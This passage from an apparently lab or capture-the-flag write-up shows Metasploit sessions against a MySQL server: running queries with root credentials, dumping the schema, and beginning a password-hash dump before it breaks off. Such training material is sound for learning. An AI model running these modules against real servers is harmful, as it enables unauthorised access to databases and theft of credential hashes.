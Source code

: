     USERNAME => root
    msf5 auxiliary(admin/mysql/mysql_sql) > set PASSWORD password
    PASSWORD => password
    msf5 auxiliary(admin/mysql/mysql_sql) > exploit
    [*] Running module against <ip>

    [*] <ip>:3306 - Sending statement: 'select version()'...
    [*] <ip>:3306 -  | 5.7.29-0ubuntu0.18.04.1 |
    [*] Auxiliary module execution completed

    msf5 auxiliary(admin/mysql/mysql_sql) > set SQL 'show databases'
    SQL => show databases
    msf5 auxiliary(admin/mysql/mysql_sql) > exploit
    [*] Running module against <ip>

    [*] <ip>:3306 - Sending statement: 'show databases'...
    [*] <ip>:3306 -  | information_schema |
    [*] <ip>:3306 -  | mysql |
    [*] <ip>:3306 -  | performance_schema |
    [*] <ip>:3306 -  | sys |
    [*] Auxiliary module execution completed{% endraw %}{% endcapture %} {% include code.html code=code %}


### Task 10 - Exploiting MySQL

Use `msfconsole` to exploit `mysql` and get password information.
{% capture code %}{% raw %}msfconsole
    msf5 > use auxiliary/scanner/mysql/mysql_schemadump
    msf5 auxiliary(scanner/mysql/mysql_schemadump) > set RHOSTS <ip>
    RHOSTS => <ip>
    msf5 auxiliary(scanner/mysql/mysql_schemadump) > set USERNAME root
    USERNAME => root
    msf5 auxiliary(scanner/mysql/mysql_schemadump) > set PASSWORD password
    PASSWORD => password
    msf5 auxiliary(scanner/mysql/mysql_schemadump) > exploit

    - TableName: x$waits_global_by_latency
        Columns:
        - ColumnName: events
        ColumnType: varchar(128)
        - ColumnName: total
        ColumnType: bigint(20) unsigned
        - ColumnName: total_latency
        ColumnType: bigint(20) unsigned
        - ColumnName: avg_latency
        ColumnType: bigint(20) unsigned
        - ColumnName: max_latency
        ColumnType: bigint(20) unsigned

    [*] <ip>:3306      - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

    msf5 > use auxiliary/scanner/mysql/mysql_hashdump
    msf5 auxiliary(scanner/mysql/mysql_hashdump) > show options

    Module options (auxiliary/scanner/mysql/mysql_hashdump):

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    PASSWORD                   no        The password for the specified username
    RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
    RPORT     3306             yes       The target port (TCP)
    THREADS   1                yes       The number of concurrent threads (max one per host)
    USERNAME                   no        The username to authenticate as

    msf5 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS <ip>